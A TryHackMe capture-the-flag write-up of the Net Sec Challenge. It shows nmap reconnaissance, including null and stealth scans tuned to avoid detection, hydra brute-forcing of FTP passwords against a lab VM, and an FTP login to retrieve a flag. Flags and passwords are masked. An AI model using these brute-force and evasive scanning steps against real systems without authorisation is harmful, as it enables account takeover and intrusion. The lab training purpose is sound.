



# Net Sec Challenge
This writeup summarizes the steps i took to complete the Net Sec Challenge on tryhackme (https://tryhackme.com/room/netsecchallenge). First of all the introduction describes that all questions can be answered using only nmap, telnet and hydra. So i tried limiting myself to these tools to increase the learning experience. 

The first step was to gather as much information as possible using nmap with different options as follows:

```text-x-sh
kali@kali:~$ sudo nmap -A -p- 10.10.173.36
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 20:56 CET
Nmap scan report for 10.10.173.36
Host is up (0.040s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 ***{************}
80/tcp    open  http        lighttpd
|_http-title: Hello, world!
|_http-server-header: lighttpd ***{****************}
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
****/tcp  open  http        Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
*****/tcp open  ftp         vsftpd *.*.*
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.94SVN%I=7%D=1/11%Time=65A0480A%P=x86_64-unknown-linux-gn
SF:u%r(NULL,29,"SSH-2\.0-OpenSSH_8\.2p1\x20***{************}\r\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/11%OT=22%CT=1%CU=35986%PV=Y%DS=2%DC=T%G=Y%TM=65A0
OS:481E%P=x86_64-unknown-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%
OS:TS=A)SEQ(SP=105%GCD=2%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M509ST11NW7%O2=
OS:M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST11)WI
OS:N(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F5
OS:07%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3
OS:(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=
OS:Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%R
OS:IPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Unix

Host script results:
|_nbstat: NetBIOS name: NETSEC-CHALLENG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-01-11T19:57:15
|_  start_date: N/A

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   39.69 ms 10.18.0.1
2   39.87 ms 10.10.173.36

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.57 seconds
```

Using the aggressive nmap scan ("-A") allowed me to answer the first six questions. I also wanted to scan all ports, so i used the option “-p-”. An alternative would be “-p1-65535”. 

For the following question i had to use hydra for the two usernames “eddie” and “quinn”:

```text-x-sh
kali@kali:~$ hydra -l eddie -P /usr/share/wordlists/rockyou.txt 10.10.173.36 -s ***** ftp
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-11 21:09:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.173.36:*****/
[*****][ftp] host: 10.10.173.36   login: eddie   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-11 21:09:29

kali@kali:~$ hydra -l quinn -P /usr/share/wordlists/rockyou.txt 10.10.173.36 -s ***** ftp
Hydra v9.6dev (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-11 21:09:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.173.36:10021/
[*****][ftp] host: 10.10.173.36   login: quinn   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-11 21:09:56	
```

I used the “rockyou” wordlist, which gave me the valid passwords for both accounts with nearly no time loss. You should pay attention to the “-s” parameter, which determines the port to attack on, because the target vm doesn't use the default one. After i got the credentials, i connected to the ftp-server using telnet and found the next flag inside of quinn's home-directory:

```text-x-sh
kali@kali:~$ ftp 10.10.173.36 10021
Connected to 10.10.173.36.
220 (vsFTPd 3.0.3)
Name (10.10.173.36:kali): quinn
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30079|)
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
229 Entering Extended Passive Mode (|||30434|)
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
100% |***********************************|    18        9.67 KiB/s    00:00 ETA
226 Transfer complete.
18 bytes received in 00:00 (0.39 KiB/s)
ftp> quit
221 Goodbye.
kali@kali:~$ ls
ftp_flag.txt
kali@kali:~$ cat ftp_flag.txt 
***{************}
```

I also tried using telnet but didn't get a list of files using the LIST-command. Instead i had to switch to the passive mode and opened a data-channel (described in [https://www.filestash.app/2021/08/07/ftp-with-telnet/).](https://www.filestash.app/2021/08/07/ftp-with-telnet/).) Establishing a data-channel worked as well as running the LIST-command, but the data-channel closed before getting the results:

```text-x-sh
kali@kali:~$ sudo telnet 10.10.173.36 30525
[sudo] password for kali: 
Trying 10.10.173.36...
Connected to 10.10.173.36.
Escape character is '^]'.
Connection closed by foreign host.
```

The final task was about scanning the server as covertly as possible. Opening the website on port 8080 led to the following page:



We have to be careful to only scan all needed ports (“-p1,2,3,…,65535”). Nmap also has the “T”-option, which reduces the noise by setting the timing template (according to the nmap man-page: higher is faster). We can also choose a Stealth-scan using “-sS”. Another approach would be a Null-scan.

So i reset the packet counter and first tried a Stealth-scan on an increased time interval:

```text-x-sh
kali@kali:~$ sudo nmap -sS -T3 10.10.173.36
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 22:03 CET
Nmap scan report for 10.10.173.36
Host is up (0.039s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
****/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.91 seconds
```

This was still too noisy and i even didn't find the ftp port. So i tried a Null-scan ("-sN") and reduced to all ports i had already determined:

```text-x-sh
kali@kali:~$ sudo nmap -sN -T3 -p22,80,139,445,****,***** 10.10.173.36
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 22:10 CET
Nmap scan report for 10.10.173.36
Host is up (0.041s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
****/tcp open|filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.89 seconds
```

This scan resulted in a 0% chance of being detected and revealed the flag:



I also wanted to know how long it took to scan the system when producing less noise:

```text-x-sh
kali@kali:~$ sudo nmap -sN -T2 -p22,80,139,445,****,***** 10.10.173.36
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 22:13 CET
Nmap scan report for 10.10.173.36
Host is up (0.039s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE         SERVICE
22/tcp   open|filtered ssh
80/tcp   open|filtered http
139/tcp  open|filtered netbios-ssn
445/tcp  open|filtered microsoft-ds
****/tcp open|filtered http-proxy

Nmap done: 1 IP address (1 host up) scanned in 404.11 seconds
```

It took a lot more time but the results were the following:



I'm not sure if this was a bug^^